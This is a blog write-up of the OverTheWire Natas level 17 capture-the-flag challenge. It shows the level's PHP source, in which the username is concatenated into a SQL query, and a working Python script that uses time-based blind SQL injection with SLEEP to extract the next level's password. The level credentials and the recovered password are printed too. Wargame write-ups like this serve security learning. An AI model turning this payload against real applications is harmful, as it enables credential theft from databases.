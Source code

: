 +++
author = "Alex Domnit"
title = 'Natas-Level 17'
date = 2024-08-25T21:17:22+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas17*\
*Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC*\
*URL:      http://natas17.natas.labs.overthewire.org*

#### [Solution idea](https://medium.com/@samarthkokil64/overthewire-updated-natas-walkthrough-level-17-00dd519c7689)

### Doc
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.\
[What is php?](https://en.wikipedia.org/wiki/PHP)\
PHP is a general-purpose scripting language geared towards web development. It was originally created by Danish-Canadian programmer Rasmus Lerdorf in 1993 and released in 1995. The PHP reference implementation is now produced by the PHP Group.\
[What is SQL?](https://en.wikipedia.org/wiki/SQL)\
Structured Query Language is a domain-specific language used to manage data, especially in a relational database management system. It is particularly useful in handling structured data, i.e., data incorporating relations among entities and variables.\
[What is SQL injection?](https://en.wikipedia.org/wiki/SQL_injection)\
In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.


### Solution
The index page of **natas17** presents us with a **Username** field and a **check existance** button just like in the previous levels.

Let\`s check the Source code:
{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
This solution seems to be based again on some sort of SQL injection. Let\`s break down the code and find the important snippets.

```
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} 
```
This seems to be the part where the magic happens. It is very similar to a SQL injection we used previously, the caviat here being that there`s no ouput so we can not be sure if the data we bring into the equation is correct or not. We could use a timeout after the query tho in order to see what happens since if the query is returning somehting, the timeout will execute, otherwise it will just skip to the next iteration.\
For that, a script similar to the last SQL injection will be necessary. We can just slightly modify the already completed script in order to adapt it to <strong>natas17</strong>.\
<strong>Code:</strong>
```
import requests
import re
from time import *

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

Url = "http://natas17.natas.labs.overthewire.org"

session = requests.session()

current_password = list()

while(True):
    for character in characters:
        print("Trying with: " + "".join(current_password) + character)
        startTime = time()
        response = session.post(Url, data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},auth=(username, password))
        endTime = time()
        if endTime - startTime > 2:
            current_password.append(character)
            break
    if len(current_password) == 32:
            break
```
<strong>Script run:</strong>
```
02:28:04 archie@Archie py → python3 script.py
Trying with: a
Trying with: b
Trying with: c
Trying with: d
Trying with: e
Trying with: f
Trying with: g
Trying with: h
Trying with: i
Trying with: j
Trying with: k
Trying with: l
Trying with: m
Trying with: n
Trying with: o
.
.
.
Trying with: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```
<strong>The code is not my intelectual property and was adapted from "see header".</strong>